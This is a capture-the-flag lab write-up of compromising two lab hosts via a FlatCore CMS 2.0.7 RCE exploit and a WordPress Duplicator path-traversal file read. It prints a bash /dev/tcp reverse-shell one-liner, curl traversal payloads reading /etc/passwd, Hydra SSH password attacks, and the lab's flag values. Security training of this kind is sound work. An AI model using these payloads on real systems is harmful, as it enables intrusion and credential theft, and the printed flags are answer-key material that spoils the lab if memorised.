# Host & Network Penetration Testing: Exploitation CTF 1

## Overview

This lab focused on identifying and exploiting vulnerable web applications hosted on two Linux targets. The assessment involved CMS exploitation, credential attacks against SSH services, WordPress plugin enumeration, arbitrary file read vulnerabilities, and user compromise through weak authentication controls.

**Objectives:**

- Exploit the vulnerable web application on `target1.ine.local`
- Compromise an insecure user account on Target 1
- Identify and exploit a vulnerable WordPress plugin on `target2.ine.local`
- Compromise a user account requiring no effective authentication on Target 2

---

## Lab Environment

| Host | IP Address |
|---|---|
| target1.ine.local | 192.77.187.3 |
| target2.ine.local | 192.77.187.4 |

The `/etc/hosts` file confirmed the target mappings:

```bash
cat /etc/hosts
```

```text
192.77.187.3 target1.ine.local
192.77.187.4 target2.ine.local
```

Useful wordlists provided by the lab:

```text
/usr/share/nmap/nselib/data/wp-plugins.lst
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

---

## Target 1 — Enumeration

The challenge provided valid credentials (`admin:password1`) as a starting point, so the first step was to enumerate the host and identify the web application running on it.

Metasploit was started and a dedicated workspace created to keep findings organized:

```bash
service postgresql start
msfconsole

workspace -a target1
```

A full TCP port/service scan was then run:

```bash
db_nmap -sV -sC -O -p- target1.ine.local
```

**Nmap results:**

```text
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```

Notable findings:

- Apache web server running on port 80
- CMS fingerprint visible via HTTP response headers (`X-Generator: FlatCore`)
- `robots.txt` disclosed several restricted application directories:

```text
/acp/
/core/
/lib/
/modules/
```


---

## Target 1 — Web Application Analysis

Browsing to the site confirmed a CMS-driven web application. Logging in with the provided credentials:

```text
admin : password1
```

surfaced the admin panel, which identified the exact CMS version:

```text
FlatCore CMS 2.0.7
```



---

## Target 1 — Vulnerability Identification

A SearchSploit lookup against the identified CMS version returned a known Remote Code Execution exploit:

```bash
searchsploit flatcore 2.0.7
```

The exploit (EDB-ID 50262) was copied locally for use:

```bash
searchsploit -m 50262
```

---

## Target 1 — Exploitation

The RCE exploit was run against the target using the previously obtained administrator credentials:

```bash
python3 50262.py \
  'http://target1.ine.local' \
  'admin' \
  'password1'
```

This returned a functional web shell.



---

## Target 1 — Flag 1

The web shell returned was limited and didn't handle interactive Linux commands cleanly. Using absolute paths for every command resolved this:

```bash
ls /
```

The first flag was sitting in the filesystem root:

```bash
cat /flag1.txt
```

```text
103f4b42a5a443678f261d1975619d2e
```



---

## Target 1 — Post-Exploitation Enumeration

With shell access established, `/etc/passwd` was reviewed for local user accounts:

```bash
cat /etc/passwd
```

```text
iamaweakuser:x:1000:1000::/home/iamaweakuser:/bin/bash
```

This matched the second objective: an "insecure user account" to compromise.

---

## Target 1 — Upgrading to a Stable Shell

The web shell's limitations made further enumeration unreliable, so it was upgraded to a full Meterpreter session via a reverse shell.

A Metasploit multi/handler was set up first to catch the incoming connection:



Then a Bash one-liner reverse shell was triggered through the web shell that we have access trough the RCE :

```bash
bash -c 'bash -i >& /dev/tcp/192.77.187.2/4444 0>&1' &
```

This established a working Meterpreter session on the attacking host.


---

## Target 1 — Flag 2

Since SSH was exposed on port 22, a password-spraying attack with Hydra was launched against the weak user account identified earlier:

```bash
hydra \
  -l iamaweakuser \
  -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
  192.77.187.3 ssh
```

Hydra successfully recovered a valid password for `iamaweakuser`.



Logging in with the recovered credentials gave access to the user's home directory, where the second flag was found:

```text
c69fb912682649819f78dd60b8709fe1
```



---

## Target 2 — Enumeration

A new Metasploit workspace was created for the second target:

```bash
workspace -a target2
```

A full service scan was run:

```bash
db_nmap -sV -sC -O -p- target2.ine.local
```

**Results:**

```text
22/tcp open  ssh
80/tcp open  http
```

The HTTP response revealed the platform in use:

```text
HTTP Generator: WordPress 6.1
```


---

## Target 2 — WordPress Enumeration

WPScan was used to fingerprint the WordPress installation:

```bash
wpscan --url http://target2.ine.local
```

This identified the active theme:

```text
Theme: Twenty Twenty-Three 1.0
```

Plugin enumeration was performed next using Nmap's WordPress enumeration script and a plugin wordlist:

```bash
nmap \
  --script http-wordpress-enum \
  --script-args search-limit=1000,wp-plugins-lst=/usr/share/nmap/nselib/data/wp-plugins.lst \
  target2.ine.local \
  -p 80
```

**Plugins identified:**

```text
akismet 5.0.1
duplicator 1.3.26
```

The Duplicator plugin stood out immediately, as older versions are known to carry serious vulnerabilities.

---

## Target 2 — Vulnerability Identification

Research into the plugin version confirmed an unauthenticated arbitrary file read vulnerability:

```bash
searchsploit duplicator
```

Metasploit also ships a dedicated auxiliary module for this exact issue:

```text
auxiliary/scanner/http/wp_duplicator_file_read
```



---

## Target 2 — Manual Verification

Before reaching for Metasploit, the vulnerability was verified manually via path traversal against `admin-ajax.php`.

**Reading `/etc/passwd`:**

```bash
curl \
  "http://target2.ine.local/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../etc/passwd"
```

The request successfully returned the contents of `/etc/passwd`, confirming the file read vulnerability.



This disclosed a local user account of interest:

```text
iamacrazyfreeuser
```

---

## Target 2 — Flag 3

With arbitrary file read confirmed, the flag at the filesystem root was targeted directly:

```bash
curl \
  "http://target2.ine.local/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../flag3.txt"
```

**Response:**

```text
FLAG3{71be727c48104d7dbf218ef53ef83cac}
```


---

## Target 2 — Metasploit Verification

Since Metasploit was already running, the dedicated auxiliary module was also used to confirm the finding through a framework-assisted method:

```text
use auxiliary/scanner/http/wp_duplicator_file_read

set RHOSTS target2.ine.local
set FILEPATH /flag3.txt
exploit
```


**Output:**

```text
FLAG3{71be727c48104d7dbf218ef53ef83cac}
```

This confirmed exploitation through both manual `curl` requests and the Metasploit module, validating the finding from two independent angles.


---

## Target 2 — Compromising the User Account

The earlier `/etc/passwd` disclosure had revealed the account:

```text
iamacrazyfreeuser
```

Since SSH was exposed, a Hydra password attack was attempted against this account:

```bash
hydra \
  -l iamacrazyfreeuser \
  -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
  192.77.187.4 ssh
```

Unexpectedly, Hydra reported that *every* password in the wordlist succeeded:

```text
princess
nicole
jessica
1234567
babygirl
password
monkey
admin
lovely
12345
12345678
abc123
daniel
123456789
```

This behavior is not normal for a correctly configured SSH service, it strongly suggested that the account's authentication mechanism was intentionally broken or bypassed for the purposes of the lab, effectively allowing access with any password.

---

## Target 2 — Flag 4

Taking advantage of the broken authentication, a direct SSH login was attempted:

```bash
ssh iamacrazyfreeuser@target2.ine.local
```

Access was granted. Listing the home directory revealed the final flag:

```bash
ls
```

```text
flag4.txt
```

```bash
cat flag4.txt
```

```text
FLAG4{31599de0098f4d26b96e20d4a291df99}
```



---


---

## Flags Captured

| Flag | Value |
|---|---|
| Flag 1 | `103f4b42a5a443678f261d1975619d2e` |
| Flag 2 | `c69fb912682649819f78dd60b8709fe1` |
| Flag 3 | `FLAG3{71be727c48104d7dbf218ef53ef83cac}` |
| Flag 4 | `FLAG4{31599de0098f4d26b96e20d4a291df99}` |

---

## Key Takeaways

- Identified and exploited **FlatCore CMS 2.0.7** Remote Code Execution using publicly disclosed credentials.
- Escalated a limited, non-interactive web shell into a stable **Meterpreter** session via a reverse shell and multi/handler.
- Performed **Hydra**-based SSH password attacks against weak local accounts.
- Enumerated a **WordPress** installation and its plugins using **WPScan** and Nmap's `http-wordpress-enum` script.
- Identified and exploited an **unauthenticated arbitrary file read** vulnerability in the Duplicator plugin via path traversal.
- Cross-validated exploitation using both manual `curl` requests and a Metasploit auxiliary module.
- Discovered an SSH account with effectively no real authentication enforcement, allowing login with any password.
- Captured all four flags across both targets, demonstrating full-chain enumeration → exploitation → post-exploitation.

## Skills Practiced

- Service & Port Enumeration
- CMS Fingerprinting
- SearchSploit Usage
- Remote Code Execution
- Reverse Shells & Multi/Handler
- Meterpreter Post-Exploitation
- Hydra Password Attacks
- WordPress Enumeration (WPScan, Nmap NSE)
- Plugin Vulnerability Research
- Arbitrary File Read Exploitation
- Path Traversal
- Linux User & Permission Enumeration
